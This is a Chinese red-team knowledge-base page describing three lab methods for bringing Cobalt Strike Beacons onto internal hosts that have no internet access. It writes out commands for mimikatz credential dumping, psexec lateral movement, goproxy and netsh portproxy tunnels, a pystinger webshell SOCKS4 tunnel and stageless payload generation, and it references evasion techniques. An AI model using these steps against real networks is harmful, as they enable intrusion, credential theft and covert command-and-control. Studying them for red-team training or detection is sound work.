

## 概述

本页面系统沉淀「不出网主机上线方法」实战技术文档，记录在 **DMZ 区域主机可出网、内网目标主机不可出网** 的典型网络拓扑下，通过三种核心技术路线实现 Cobalt Strike Beacon 上线：

1. **SMB Beacon** —— 利用命名管道在已控主机与不出网主机间建立 C2 通道，适用于拥有目标管理员凭据且 445 端口开放的场景
2. **HTTP 代理隧道** —— 在 DMZ 主机部署 goproxy HTTP 代理，配合 Windows 原生 `netsh interface portproxy` 将外网访问端口映射至内网代理端口，C2 Listener 绑定代理地址，生成 **Stageless Payload** 实现无阶段加载上线
3. **SOCKS4 代理** —— 利用 pystinger（WebShell + stinger_server.exe）搭建 SOCKS4 代理，配合 Cobalt Strike SOCKS Listener 实现流量转发上线

三种方案均基于 **Cobalt Strike** 红队框架，覆盖从基础设施搭建、Listener 配置、Payload 生成到横向移动上线的完整攻击链。

---

## 网络拓扑与环境定义

| 角色 | 操作系统 | 网络配置 | IP 地址 | 说明 |
|------|----------|----------|---------|------|
| **DMZ Web 服务器** | Windows Server 2008 R2 | 双网卡：NAT（出网）+ Host-Only（内网） | 公网：`192.168.111.132`<br>内网：`192.168.204.188` | 可访问互联网，作为跳板/代理节点 |
| **内网目标主机** | Windows Server 2012 | 单网卡：Host-Only（仅内网） | 内网：`192.168.204.141` | **不可直接访问互联网**，目标上线主机 |
| **C2 服务器** | Kali Linux | 公网直连 | 公网：`192.168.111.129` | Cobalt Strike Team Server 部署节点 |

> **拓扑要点**：DMZ 主机充当「边界代理」，内网主机通过 DMZ 内网 IP（`192.168.204.188`）经由端口映射到达 C2 公网 IP（`192.168.111.129`）。

---

## 方法一：SMB Beacon 横向移动上线

### 核心原理

SMB Beacon 使用 Windows **命名管道** 通过父级 Beacon 进行通讯。子 Beacon 从父 Beacon 获取任务并返回结果，流量封装在 **SMB 协议** 中，具有较强隐蔽性。SMB Beacon **无法直接生成可执行载荷**，仅支持通过 **PsExec** 或 **Stageless Payload** 方式上线。

### 使用前提

1. 父级 Beacon 所在主机需开放 **445 端口**（SMB 服务）
2. 目标主机需具备 **管理员权限凭据**（Administrator 或同等权限）
3. 父子 Beacon 必须隶属于 **同一 Cobalt Strike 实例**（同一 Team Server）

### 实战流程

#### 获取父级 Beacon 与凭据

在 DMZ Web 服务器（`192.168.204.188`）上线 Cobalt Strike Beacon 后，执行凭据导出：

```bash
# 在 Beacon 会话中执行
run mimikatz
```

> 详细凭据导出技术见 [[mimikatz-sekurlsa-pth-internals]]、[[mimikatz-source-code-architecture-golden-ticket-audit]]

#### 创建 SMB Listener

在 Cobalt Strike 客户端：`Cobalt Strike → Listeners → Add`，配置关键项：

| 参数 | 值 | 说明 |
|------|-----|------|
| **Payload** | `windows/beacon_smb/bind_pipe` | SMB Beacon 绑定管道模式 |
| **Pipe Name** | `msagent_##` | 默认管道名，可自定义 |
| **Bind Address** | `0.0.0.0` | 监听所有接口 |

#### PsExec 横向移动上线

`Beacon 控制台 → 右键目标主机 → Pivoting → psexec`，填写：

- **目标 IP**：`192.168.204.141`（内网目标）
- **凭据**：Administrator / 密码（或 NTLM Hash，支持 Pass-the-Hash）
- **Listener**：选择上一步创建的 SMB Listener
- **Pivot Listener**：选择当前 DMZ 主机的 Beacon 作为跳板

#### 成功标识

上线成功后，Beacon 列表中目标主机右侧显示 **`∞∞`** 标识，表示通过 SMB 命名管道通信。

> SMB Beacon 检测与对抗详见 [[named-pipe-smb-detection-sysmon]]、[[smb-named-pipe-c2-communication]]、[[cobalt-strike-external-c2-smb-beacon]]

---

## 方法二：HTTP 代理隧道 —— goproxy + netsh portproxy

### 架构设计



**核心组件**：
- **goproxy**：Go 编写的高性能 HTTP/HTTPS/SOCKS5 代理工具，单文件部署
- **netsh interface portproxy**：Windows 原生 IPv4-to-IPv4 端口转发功能，无需第三方工具，系统级转发，稳定性高

### 部署步骤

#### DMZ 主机部署 goproxy HTTP 代理

上传 `proxy.exe`（goproxy 编译二进制）至 DMZ 主机，监听 **8080 端口**：

```cmd
shell C:\proxy.exe http -t tcp -p ":8080"
```

> `-t tcp` 指定传输层协议，`-p` 指定监听端口。goproxy 支持 TLS、WebSocket 等多种传输模式，可根据流量混淆需求调整。

#### 配置 netsh 端口映射

将 **DMZ 内网 IP 的 822 端口** 映射至 **DMZ 公网 IP 的 8080 端口**（goproxy 监听端口）：

```cmd
shell netsh interface portproxy add v4tov4 listenaddress=192.168.204.188 listenport=822 connectaddress=192.168.111.132 connectport=8080
```

| 参数 | 说明 |
|------|------|
| `listenaddress` | DMZ 内网网卡 IP（内网目标可达） |
| `listenport` | 内网侧监听端口（需未被占用，如 822） |
| `connectaddress` | DMZ 公网网卡 IP（可达 C2） |
| `connectport` | goproxy 实际监听端口（8080） |

#### 验证端口映射生效

```cmd
netstat -ano | findstr :822
```

预期输出显示 `TCP 192.168.204.188:822 0.0.0.0:0 LISTENING`，PID 为 `System`（内核态转发）。

> `netsh portproxy` 工作在内核网络层，性能优于用户态转发工具（如 frp、lcx），且无额外进程特征，隐蔽性较强。对比见 [[frp内网渗透应用]]、[[internal-network-pivoting-techniques]]

#### 创建 HTTP Listener（绑定代理地址）

Cobalt Strike `Listeners → Add`，关键配置：

| 参数 | 值 | 说明 |
|------|-----|------|
| **Payload** | `windows/beacon_http/reverse_http` | HTTP 反向连接 |
| **Host** | `192.168.204.188` | **DMZ 内网 IP**（内网目标访问入口） |
| **Port** | `822` | **netsh 映射的内网端口** |
| **Proxy Host** | `192.168.204.188` | 代理服务器地址（同 Host） |
| **Proxy Port** | `822` | 代理端口（同 Port） |
| **Proxy Type** | `HTTP` | 代理协议类型 |
| **Beacon Interval** | `5000` | 心跳间隔（ms） |

> **关键点**：Listener 的 `Host/Port` 必须指向 **内网侧映射地址**（`192.168.204.188:822`），而非 C2 公网地址。Cobalt Strike 会自动通过配置的代理转发流量至 Team Server。

#### 生成 Stageless Payload

**Staged 与 Stageless 对比**：

| 特性 | Staged (分阶段) | Stageless (无阶段) |
|------|-----------------|-------------------|
| **体积** | 极小 (~200KB) | 较大 (~400KB+) |
| **加载流程** | Stage 1 申请内存 → Stage 2 下载 Shellcode 执行 | 一次性包含完整 Beacon 逻辑 |
| **网络依赖** | 需二次连接 C2 下载 Stage 2 | 无需额外连接，**适合不稳定/受限网络** |
| **免杀效果** | Stage 2 流量易被检测 | 单次传输，可结合加密/混淆提升免杀 |

生成命令（Beacon 控制台或 Script Console）：

```bash
# 生成 Windows x64 Stageless EXE
artifact windows exe stageless 192.168.204.188 822 /path/to/payload.exe
```

或使用 `Attacks → Packages → Windows Executable (S)` 生成 **Stageless** 可执行文件。

#### 目标主机执行上线

将生成的 `payload.exe` 传输至内网目标（`192.168.204.141`），直接执行。连接链路：

```
192.168.204.141 (目标)
    → 192.168.204.188:822 (DMZ内网 netsh 映射端口)
    → 192.168.111.132:8080 (DMZ公网 goproxy 代理)
    → 192.168.111.129 (C2 Team Server)
```

上线成功后，Beacon 显示常规 HTTP 会话特征，无 `∞∞` 标识。

---

## 方法三：SOCKS4 代理 —— pystinger

### 原理架构

pystinger 采用 **WebShell + 独立代理服务端** 双组件设计：

- **proxy.php**：部署在 Web 目录，仅负责 **流量转发**（HTTP → TCP），极简化减少特征
- **stinger_server.exe**：运行在 DMZ 主机，实现 **SOCKS4 代理协议栈**，处理连接建立、数据收发、多路复用


> 该架构将协议解析复杂度下沉至 `stinger_server.exe`，WebShell 仅作管道，**降低 WebShell 被查杀概率**。类似思路见 [[iox-proxy-protocol-evasion]] 协议栈重构设计。

### 部署与使用

#### DMZ 主机部署服务端组件

- 上传 `proxy.php` 至 Web 目录（如 `C:\inetpub\wwwroot\proxy.php`），访问返回 `UTF-8` 确认正常
- 上传 `stinger_server.exe`，启动监听所有接口：

```cmd
start stinger_server.exe 0.0.0.0
```

默认监听 **1080 端口**（SOCKS4 标准端口）。

#### Kali 攻击机启动客户端

```bash
./stinger_client -w http://192.168.111.132:81/proxy.php -l 127.0.0.1 -p 60000
```

| 参数 | 说明 |
|------|------|
| `-w` | WebShell 完整 URL（DMZ 公网 IP + Web 端口） |
| `-l` | 本地绑定地址（供 Cobalt Strike 连接） |
| `-p` | 本地绑定端口（SOCKS4 代理入口） |

启动成功后，Kali 本地 `127.0.0.1:60000` 成为 SOCKS4 代理入口。

#### 创建 SOCKS Listener

Cobalt Strike `Listeners → Add`：

| 参数 | 值 |
|------|-----|
| **Payload** | `windows/beacon_smb/bind_pipe` 或 HTTP |
| **Host** | `192.168.204.188` (DMZ 内网 IP) |
| **Port** | `60020` (自定义转发端口，需与下文一致) |
| **Proxy Host** | `127.0.0.1` (Kali 本地 stinger_client 绑定) |
| **Proxy Port** | `60000` (stinger_client SOCKS4 端口) |
| **Proxy Type** | `SOCKS4` |

#### PsExec 横向移动上线

使用 `psexec` 模块，跳板选择 DMZ Beacon，Listener 选择上述 SOCKS Listener，凭据为目标 Administrator，即可实现不出网主机上线。

> SOCKS 代理隧道技术在内网渗透中广泛应用，详见 [[xd-security-internal-network-penetration-notes-day69-70]]、[[frp内网渗透应用]]、[[c2-redirectors-malleable-c2-profiles]]

---

## 关键技术点总结

### Stageless Payload 选型策略

- **网络受限/不稳定环境**：首选 Stageless，避免 Stage 2 下载失败导致上线中断
- **体积敏感场景**（如 WebShell 传输限制）：考虑 Staged + 压缩/编码
- **免杀对抗**：Stageless 单次传输便于整体加密/混淆，结合 [[inceptor-av-edr-evasion-framework]]、[[phantom-dll-hollowing-technique]] 等免杀框架效果更佳

### 端口映射方案对比

| 方案 | 层级 | 优点 | 缺点 | 适用场景 |
|------|------|------|------|----------|
| **netsh portproxy** | 内核态 | 无额外进程、系统原生、稳定、低特征 | 仅支持 TCP/IPv4、配置需管理员权限 | Windows 环境、长期驻留、高隐蔽需求 |
| **frp / nps / goproxy 自带转发** | 用户态 | 跨平台、支持 UDP/加密/多路复用 | 需运行进程、易被进程枚举发现 | 临时渗透、跨平台、需复杂流控 |
| **lcx / ew / iox** | 用户态 | 轻量、单文件 | 进程特征明显、旧工具易查杀 | 临时应急、CTF 场景 |

> 详细对比见 [[frp内网渗透应用]]、[[iox-proxy-protocol-evasion]]、[[internal-network-pivoting-techniques]]

### 代理协议选择指南

| 协议 | 特点 | Cobalt Strike 支持 | 推荐场景 |
|------|------|-------------------|----------|
| **HTTP/HTTPS** | 兼容性好、易穿透 Web 防火墙、支持域名前置 | 原生支持 HTTP Listener + Proxy 配置 | 标准 Web 代理环境、需流量混淆 |
| **SOCKS4/5** | 通用 TCP 代理、支持 UDP (SOCKS5)、无应用层解析开销 | 原生支持 SOCKS Listener | 内网横向移动、多协议转发、pystinger/frp 场景 |
| **TCP 直连 (netsh)** | 零代理开销、内核转发、最隐蔽 | 需配合 HTTP Listener 指定 Proxy | Windows 内网、长期持久化、高隐蔽 |

---

## 交叉引用与延伸阅读

### Cobalt Strike 核心架构与 C2 通道

- [[cobalt-strike-external-c2-smb-beacon]] —— Team Server/Beacon 交互模型、Staging 机制、External C2 规范、SMB Beacon 实战细节
- [[c2-redirectors-malleable-c2-profiles]] —— C2 重定向器拓扑、Malleable C2 Profile 流量混淆、域名前置/CDN 隐匿
- [[cobalt-strike-4.7-bof-internals]] —— BOF 加载器内部实现、Relocation 处理、Sleep Kit、PPL 进程注入绕过

### 内网穿透与代理隧道技术

- [[frp内网渗透应用]] —— frp 正反向代理、SOCKS5 隧道、多级串联、Metasploit 会话代理、RDP 端口转发
- [[internal-network-pivoting-techniques]] —— 0x727 Aggressor Script 工具包、atexec/PrintSpooler/FRP/SpwanReflectiveC2 集成
- [[xd-security-internal-network-penetration-notes-day69-70]] —— SOCKS 代理隧道、Ngrok/Frp 实战、三层内网渗透演练
- [[iox-proxy-protocol-evasion]] —— iox 协议握手、加密、随机 Padding、多路复用元数据泄露、协议栈重构对抗沙箱

### 凭据获取与横向移动

- [[mimikatz-sekurlsa-pth-internals]] —— sekurlsa::pth LSASS 内存补丁实现 Pass-the-Hash 底层原理
- [[named-pipe-smb-detection-sysmon]] —— SMB 命名管道创建/连接检测 (Sysmon Event ID 17/18)、网络流量基线异常识别
- [[xd-security-internal-network-penetration-notes-day67-68]] —— PTH/PTK/PTT 三大凭证复用、Kerberos 委派、黄金/白银票据、Ladon 扫描器

### 免杀与内存对抗

- [[inceptor-av-edr-evasion-framework]] —— Shellcode 转换、Shikata-Ga-Nai、AMSI/WLDP/ETW 绕过、Full Unhooking、Direct Syscalls
- [[phantom-dll-hollowing-technique]] —— 模块践踏劫持合法 DLL 内存区段实现无文件注入
- [[memory-scanning-tools-evasion-techniques]] —— Hunt-Sleeping-Beacons/BeaconHunter/patriot/moneta/pe-sieve 检测原理与 UDRL 规避对抗实测

---

## 参考资料

1. 原文归档：《不出网主机上线方法》 — 微信公众号文章（编辑者：A1andNS，供稿人：sp4z）
2. <http://blog.leanote.com/post/snowming/2ec80f7823e0>
3. <https://mp.weixin.qq.com/s/45AKbRS677fxynKW6Qfz7w>
4. <https://blog.csdn.net/qq_41874930/article/details/107840269>
5. <https://www.freebuf.com/articles/web/247287.html>
6. pystinger 来源：《红队攻防实践：不出网主机搭建内网隧道新思路》 — <https://mp.weixin.qq.com/s?__biz=MzI4MzA0ODUwNw==&mid=2247484957&idx=1&sn=00d73fab2cd50e7f287c57783f03a343>

---

## 更新记录

| 日期 | 版本 | 变更说明 |
|------|------|----------|
| 2024-01-15 | 1.0 | 初始版本：整合 goproxy+netsh HTTP 代理、SMB Beacon、pystinger SOCKS4 三大技术路线，补充 Stageless 选型、端口映射对比、协议选择指南及全知识库交叉引用 |

## 来源

- [0xfafu攻防实验室-202010-202112_08](../sources/0xfafu攻防实验室-202010-202112_08.md)
